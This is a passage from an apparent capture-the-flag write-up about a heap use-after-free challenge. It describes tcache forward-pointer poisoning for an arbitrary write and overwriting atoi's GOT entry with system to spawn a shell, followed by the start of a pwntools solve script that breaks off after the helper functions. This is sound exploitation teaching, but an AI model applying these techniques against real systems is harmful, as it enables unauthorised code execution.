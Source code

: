 Now that we have a libc leak, we can calculate the libc base and get the address of the `system` function in libc.

### Overwriting GOT

Remember that we also have a Use-After-Free vuln in `edit`. This means that we can **modify** the **fwd** pointer of **tcache** to wherever we want (as long as it is writable), **create** a new chunk with malloc(), then malloc will allocate the chunk at that address we specified.\
Now we have an arbitrary write.

Looking at the source code under the `main` function, our user input gets passed as an argument into the `atoi` function.\
We can overwrite the GOT of `atoi` with our libc `system` function, then pass in "/bin/sh" as our menu option to get RCE.

{% tabs %}
{% tab title="solve.py" %}
```python
#!/usr/bin/env python3

from pwn import *

def option(m):
	global p
	p.sendlineafter(b'> ',m)

def create(m):
	global p
	option(b'1')
	p.recvline()
	p.clean()
	p.sendline(m)
	p.recvuntil(b'Your firewall rule ID is: ')
	return p.recvline().strip()

def view(i):
	global p
	option(b'2')
	p.recvline()
	p.clean()
	p.sendline(i)
	p.recvuntil(b'Your rule: ')
	return p.recvline()[:-1]

def edit(i,m):
	global p
	option(b'3')
	p.recvuntil(b'you want to edit:\n')
	p.clean()
	p.sendline(i)
	p.recvuntil(b'new firewall rule here:\n')
	p.clean()
	p.sendline(m)

def delete(i):
	global p
	option(b'4')
	p.recvuntil(b'you want to delete:\n')
	p.clean()
	p.sendline(i)
	return p.recvline()


elf = context.binary = ELF('./uaf_patched')
libc = ELF('./libc.so.6')
```